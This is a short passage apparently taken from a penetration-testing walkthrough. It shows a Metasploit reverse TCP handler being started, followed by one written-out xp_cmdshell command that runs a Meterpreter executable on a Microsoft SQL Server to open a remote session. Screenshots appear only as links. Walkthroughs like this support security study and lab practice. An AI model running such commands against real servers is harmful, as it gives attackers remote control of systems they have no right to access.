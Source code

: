 ![msfconsole](docs/14.png)

Last thing to do is type `run`. Now that the reverse TCP handler is running, we will switch over to the `mssql` and make sure we execute the .exe to gain connection.

`EXEC xp_cmdshell 'C:\Windows\Temp\meterp_x64_tcp.exe';`

![connection](docs/15.png)

